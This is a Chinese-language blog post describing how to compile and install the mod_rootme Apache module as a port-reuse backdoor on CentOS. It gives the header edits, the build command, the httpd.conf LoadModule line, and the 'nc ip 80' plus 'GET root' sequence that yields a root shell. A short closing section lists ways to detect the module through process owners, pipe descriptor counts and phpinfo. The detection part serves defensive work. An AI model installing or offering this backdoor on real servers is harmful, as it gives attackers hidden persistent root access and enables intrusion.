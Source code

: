 ```yaml
---
layout: post
title: Apache端口复用后门
categories: penetration
tags: [penetration,backdoor]
---
```

测试环境

```bash
CentOSx64 6.5
Apache2.5
```
**0x01 利用方式**

先修改后门的里面的httpd22.h文件，不修改的话，在apache启动的时候会报错

```c
将:
#define MODULE_MAGIC_COOKIE 0x41503230UL
改为:
#define MODULE_MAGIC_COOKIE 0x41503232UL

将:
#define MODULE_MAGIC_NUMBER_MAJOR 20020903
改为:
#define MODULE_MAGIC_NUMBER_MAJOR 20051115
```
然后保存。输入make linux进行编译


![185317750](/old_img/2017-04-17-185317750.jpg)

然后修改/etc/httpd/conf/httpd.conf

添加 LoadModule rootme22_module modules/mod_rootme22.so 加载这个模块。

然后启动apache

然后使用就可以连接80端口 nc ip 80 然后输入GET root



![4195482967](/old_img/2017-04-17-4195482967.jpg)

成功获取shell


**0x02 检测方式**

1.通过ps -ef | grep httpd 可以看到有root用户使用的httpd子进程



![67507677](/old_img/2017-04-17-67507677.jpg)

然后可以进一步去查看apache配置文件

2.通过

```bash
ps -ef | grep http | head -n 1 | awk '{system("ls -l /proc/"$2"/fd")}' | grep pipe | wc -l
```
正常情况下是64，加载了mod_rootme后是66


3.在web目录下写个phpinfo看是否加载了mod_rootme模块




